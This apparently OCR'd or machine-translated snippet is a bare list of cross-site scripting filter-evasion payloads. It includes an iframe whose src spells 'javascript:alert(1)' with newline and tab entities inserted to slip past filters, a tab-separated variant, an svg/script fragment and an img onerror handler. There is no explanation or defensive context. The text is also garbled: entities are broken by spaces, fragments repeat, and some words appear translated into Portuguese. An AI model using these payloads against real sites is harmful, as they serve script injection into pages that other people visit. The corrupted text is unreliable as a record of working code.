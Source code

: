 <iframe src = j & NewLine; & Tab; a & NewLine; & Tab; & Tab; v & NewLine; & Tab; & Tab; & Tab; a & NewLine; & Tab; & Tab; & Tab; & Tab; s & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; c & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; r & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; i & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; p & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; t & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & dois pontos; a & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; l & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab;& Tab; & Tab; & Tab; & Tab; e & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; r & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; t & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 28 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 1 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab;% 29> ​​</iframe>Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; r & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; t & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 28 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 1 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab;% 29> ​​</iframe>Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; r & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; t & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 28 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 1 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab;% 29> ​​</iframe>Tab; r & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; t & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 28 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 1 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab;% 29> ​​</iframe>Tab; r & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; t & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 28 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 1 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab;% 29> ​​</iframe>Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 28 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 1 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab;% 29> ​​</iframe>Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 28 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; 1 & NewLine; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab; & Tab;% 29> ​​</iframe>

<svg> <script?> alerta (1)

<iframe src = j & Tab; a & Tab; v & Tab; a & Tab; s & Tab; c & Tab; r & Tab; i & Tab; p & Tab; t & Tab;: a & Tab; l & Tab; e & Tab; r & Tab; t & Tab;% 28 & Tab; 1 & Tab;% 29> ​​</iframe>

<img src = `xx: xx`onerror = alert (1)>
